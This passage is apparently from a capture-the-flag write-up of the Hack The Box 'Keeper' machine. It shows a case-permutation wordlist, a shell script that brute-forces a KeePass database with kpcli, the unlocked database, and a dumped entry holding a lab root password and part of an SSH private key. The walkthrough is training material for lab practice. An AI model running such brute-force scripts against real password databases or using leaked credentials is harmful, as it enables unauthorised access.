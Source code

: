 ```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ python StringPermutor.py "rødgrød med fløde" > wordlist.txt

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ head wordlist.txt
rødgrød med fløde
rødgrød med flødE
rødgrød med fløDe
rødgrød med fløDE
rødgrød med flØde
rødgrød med flØdE
rødgrød med flØDe
rødgrød med flØDE
rødgrød med fLøde
rødgrød med fLødE
```

Finally, we can run the bruteforce script and try all the combinations:

```bash
┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ cat keepass-pwn.sh
#!/bin/sh
# Usage: ./keepass-pwn.sh Database.kdbx wordlist.txt (wordlist with 2 char)
while read i
do
    echo "Using password: \"$i\""
    echo "$i" | kpcli --kdb=$1 && exit 0
done < $2

┌──(k0rrib4n㉿k0rrib4n)-[~/…/Machines/In_Progress/Keeper/Exploits]
└─$ ./keepass-pwn.sh ../Results/passcodes.kdbx wordlist.txt
Using password: "rødgrød med fløde"
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/>
```

This time, the first combination of the brute-force attack was sucessful and we gained access to the keepass database. After some browsing over it, we found two items:

```bash
kpcli:/passcodes/Network> ls
=== Entries ===
0. keeper.htb (Ticketing Server)
1. Ticketing System
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: F4><3K0nd!
  URL:
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
       EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
       Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
       FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
```